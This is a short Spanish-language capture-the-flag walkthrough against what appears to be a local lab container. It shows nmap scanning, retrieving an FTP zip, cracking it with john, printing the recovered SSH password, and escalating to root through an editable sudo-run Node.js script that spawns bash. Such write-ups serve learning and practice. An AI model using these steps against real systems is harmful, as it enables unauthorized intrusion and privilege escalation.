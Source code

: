 Fecha: 03/09/2024

Empiezo escaneando la máquina: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240903180050.png)
Descargo el comprimido que se ubica en ftp:
```bash
wget ftp://172.17.0.2/secretitopicaron.zip
```

Necesita una contraseña, así que uso john de ripper para buscarla:
```bash
zip2john secretitopicaron.zip > ziphash.txt
john ziphash.zip                  
```
![](imágenes/Pasted%20image%2020240903182308.png)
Conseguimos de esta manera un usuario (`mario`) y contraseña (`laKontraseñAmasmalotaHdelbarrioH`) para ssh. 
![](imágenes/Pasted%20image%2020240903182512.png)

Lo primero que miro al entrar es qué podemos ejecutar con sudo, encontrando que podemos ejecutar un script de js, que podemos editar nosotros mismos:
![](imágenes/Pasted%20image%2020240903182747.png)

Insertaré lo siguiente en el script y ya podré hacerme root:
```js
const { spawn } = require('child_process'); 

const shell = spawn('bash', { stdio: 'inherit', shell: true });
```

![](imágenes/Pasted%20image%2020240903183243.png)
